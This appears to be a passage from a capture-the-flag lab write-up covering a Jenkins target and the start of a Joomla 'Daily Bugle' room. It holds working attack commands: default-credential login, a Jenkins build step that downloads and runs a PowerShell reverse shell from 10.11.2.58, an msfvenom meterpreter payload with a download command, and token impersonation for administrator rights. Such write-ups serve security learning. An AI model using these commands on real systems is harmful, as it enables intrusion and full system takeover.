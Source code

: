 Jenkins on port 8080 uses default credentials: `admin:admin`.

Download [Invoke-PowerShellTcp.ps1](https://raw.githubusercontent.com/samratashok/nishang/c3fdf5e5dfa8612d0a17636dbb096b04e987ab31/Shells/Invoke-PowerShellTcp.ps1) then start a local HTTP server:
`sudo python3 -m http.server 80`

Start a listener on port 7777: `nc -lnvp 7777`.

Put this into the Jenkins project configuration under command:
```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.11.2.58/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.11.2.58 -Port 7777
```

Now we have a shell!


#### The Metasploit way

Let's generate a payload:
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.11.2.58 LPORT=1337 -f exe -o beans.exe
```

```
powershell -c (New-Object System.Net.WebClient).Downloadfile('http://10.11.2.58/beans.exe','beans.exe')
```

Make sure to have your multi/handler running on the correct port.

After that you can basically just migrate to an NT AUTHORITY/SYSTEM process and have Administrator priviledges.

Other than that you can use load incognito and abuse bruce's priviledges.

```
list_tokens -g
impersonate_token "BUILTIN\Administrators"
```

After that migrate.

### Day 4 - More to learn

#### Hackpark - Metasploit
*to be written*

#### Hackpark - Manual
*to be written*

#### Watcher's choice: Daily Bugle

We start with a classic nmap:
```
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home
```